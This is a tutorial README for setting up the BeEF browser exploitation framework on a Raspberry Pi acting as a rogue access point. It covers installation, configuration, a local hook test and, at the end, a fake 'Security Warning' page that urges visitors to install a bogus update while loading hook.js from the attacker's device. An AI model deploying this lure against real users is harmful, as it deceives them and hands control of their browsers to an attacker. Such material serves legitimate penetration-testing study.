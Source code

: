 # BeEF on Raspberry PI

BeEF (_Browser Exploitation Framework_) is a penetration tool focused on exploiting vulnerabilities inside web browsers.

## Objective

The aim of this tutorial is to set up BeEF on Raspberry PI and to show you where you could place the `hook.js`.

## Precondition

- [Setup Raspberry PI](../Setup)
- [Prepare Raspberry PI](../Preparation)
- [Simple Access Point](../AccessPoint)
- [DNS Analysis](../DNSAnalysis)
- [DNS Redirection](../DNSRedirection)

## Install needed and/or optional packages

Install (_or ensure they are installed_) following packages.

```shell
# update system (optional)
$ sudo apt update -y && sudo apt upgrade -y

# install optional packages (optional)
$ sudo apt install -y vim

# install needed packages
$ sudo apt install -y ruby-full curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev
```

## BeEF

### Install BeEF

```shell
# changer into home directory
$ cd ~

# clone git repository
$ git clone https://github.com/beefproject/beef.git

# change into cloned repository directory
$ cd beef/

# modify install script
$ vim install
```

On line 106 are two packages which are not available `gcc-9-base` and `libgcc-9-dev`. You must remove them from the file `/home/pi/beef/install`! If you have already installed all packages, you can comment this line.

```shell
...
if [ "${Distro}" = "Debian" ] || [ "${Distro}" = "Kali" ]; then
   sudo apt-get update
   # sudo apt-get install curl git build-essential openssl libreadline6-dev zlib1g zlib1g-dev libssl-dev libyaml-dev libsqlite3-0 libsqlite3-dev sqlite3 libxml2-dev libxslt1-dev autoconf libc6-dev libncurses5-dev automake libtool bison nodejs libcurl4-openssl-dev gcc-9-base libgcc-9-dev
...
```

To save a lot of time, you can add `--no-document` into command `sudo gem${RUBYSUFFIX} update --system` on line 205.

### Configure BeEF

Just change username and password on `/home/pi/beef/config.yaml`.

```shell
# modify config.yaml
$ vim config.yaml
```

Read this [Wiki](https://github.com/beefproject/beef/wiki/Configuration) for more information's.

### Start BeEF

```shell
# start BeEF
$ ./beef
```

Open in your browser the URL `http://192.168.0.1:3000/ui/panel` and login with your credentials (_you have modified in the config.yaml_). [Here](https://github.com/beefproject/beef/wiki/Interface) you will find a detailed description. 

_Note: If you follow the output inside the terminal, you will see that some other packages are required. Install them if you need them (maybe in second terminal session) and execute the BeEF command again (inside the Browser UI)._

### Test BeEF local

You can also test BeEF locally, but be careful!

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>local test of BeEF</title>
</head>
<body>
  <p>This is my local test site...</p>
  <script src="http://[your ip of wlan0 interface]:3000/hook.js"></script>
</body>
</html>
```

## Prepare the spoofed domain web page

Now we place the `hook.js` inside the fake page.

Content of file `/var/www/html/index.html`.

```html
<!doctype html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <title>Security Warning - with security update</title>
  <link type="text/css" rel="stylesheet" href="styles/style.css">
</head>
<body>
  <div id="warning">
    <h1>Security Warning</h1>
    <p>We have detected a serious security problem,<br /> 
       please install now the free security update!</p>
  </div>
  <div id="patch">
    <span><!-- placeholder security update --></span>
  </div>
  <script type="text/javascript" src="scripts/script.js"></script>
  <script src="http://192.168.0.1:3000/hook.js"></script>
</body>
</html>
```

## Additional

If the client has JavaScript disabled, this attack will not work.

[Go Back](../readme.md)
